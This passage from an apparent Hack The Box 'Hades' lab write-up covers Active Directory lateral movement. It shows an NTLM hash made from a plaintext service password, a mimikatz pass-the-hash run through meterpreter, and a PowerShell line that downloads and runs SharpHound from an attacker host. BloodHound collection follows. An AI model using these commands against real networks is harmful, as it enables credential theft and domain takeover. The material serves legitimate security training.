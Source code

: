 ```
root@kali:$ python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "T3st-S3v!ce-F0r-Pr0d".encode("utf-16le")).digest())'
f57c975264501a6649cd4e00d3f80f13
meterpreter > kiwi_cmd '"cd c:\users\administrator\music" "sekurlsa::pth /user:test-svc /domain:htb.local /run:dev.exe /ntlm:f57c975264501a6649cd4e00d3f80f13"'
...opened new meterpreter session...
PS > iex(new-object net.webclient).downloadstring("http://10.14.14.37/SharpHound.ps1")
PS > Invoke-Bloodhound -CollectionMethod All -Domain htb.local
```

3\. [bloodhound-python](https://github.com/fox-it/BloodHound.py):

```
root@kali:$ proxychains4 -q bloodhound-python -c All -u test-svc -p 'T3st-S3v!ce-F0r-Pr0d' -d htb.local -dc dc1.htb.local -ns 192.168.3.203 --dns-tcp -v
root@kali:$ zip BloodHound-bloodhound-python.zip *.json
```

Compare sizes:

```
root@kali:$ ls -la
-rw-r--r-- 1 root root 8389 Jun 29 21:42 BloodHound-bloodhound-python.zip
-rw-r--r-- 1 root root 9654 Jun 29 21:24 BloodHound-LdapPassword.zip
-rw-r--r-- 1 root root 9649 Jun 29 21:18 BloodHound-mimi-pth.zip
```

As we can see at the screenshot below, `test-svc` account has GenericAll permissions on WEB.HTB.LOCAL machine, so we shall be going for the RBCD abuse.

[![bloodhound-test-svc.png](/assets/images/htb/endgames/hades/bloodhound-test-svc.png)](/assets/images/htb/endgames/hades/bloodhound-test-svc.png)
{:.center-image}

## Abusing Kerberos Resource-based Constrained Delegation
